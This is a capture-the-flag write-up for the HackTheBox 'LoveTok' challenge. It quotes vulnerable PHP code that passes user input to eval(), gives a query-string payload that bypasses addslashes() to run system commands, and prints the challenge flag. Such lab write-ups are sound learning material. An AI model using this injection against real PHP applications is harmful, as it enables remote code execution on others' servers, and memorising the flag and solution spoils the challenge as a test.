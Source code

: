 # LoveTok

> From HackTheBox: [LoveTok](https://app.hackthebox.com/challenges/lovetok)

## Solution

Download the source code and focus on `TimeModel.php`:

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```

We can use `Command Injection` (like that: `?format=${system($_GET['pwd'])}`) here but having to bypass `addslashes()` [function](https://www.php.net/manual/en/function.addslashes.php) because the single quote `'` is added slash.

Payload: `?format=${system($_GET[param])}&param=pwd` ![img.png](img.png)

Next using `ls` and `cat` to get the flag: &#x20;

<figure><img src="img_2.png" alt=""><figcaption></figcaption></figure>

<figure><img src="img_1.png" alt=""><figcaption></figcaption></figure>

Flag: `HTB{wh3n_l0v3_g3ts_eval3d_sh3lls_st4rt_p0pp1ng}`

## References

* https://swordandcircuitboard.com/php-addslashes-command-injection-bypass/
* https://www.php.net/manual/en/function.addslashes.php

